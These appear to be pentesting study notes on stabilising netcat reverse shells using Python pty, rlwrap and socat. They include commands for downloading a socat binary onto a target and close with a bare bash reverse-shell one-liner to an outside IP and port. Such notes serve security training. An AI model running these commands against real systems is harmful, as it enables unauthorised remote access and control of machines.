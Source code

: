 **Below we are discussing three techniques to stabilise netcat shell**

---
1. Technique 1: Python
- The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default.
- This is a three stage process:
	1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
		- At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things:
		- first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
		- It then foregrounds the shell, thus completing the process.
**The full technique can be seen here:**
![[shells5.png]]
**Note** - if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

2. Technique 2: rlwrap
	- rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
	- rlwrap is not installed by default on Kali, so first install it with
```python
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```python
rlwrap nc -lvnp <port>
```

- This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
- When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

3.  Technique 3: Socat
	- The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.
	- this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.
	- To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.
		- A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
		- For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)
**Changing your terminal tty size**
1. First, open another terminal and run `stty -a`. 
![[shells6.png]]
Note down the values for "rows" and columns:

2. Next, in your reverse/bind shell, type in:
`stty rows <number>`  

and

`stty cols <number>`

bash -i >& /dev/tcp/10.17.47.177/4444 0>&1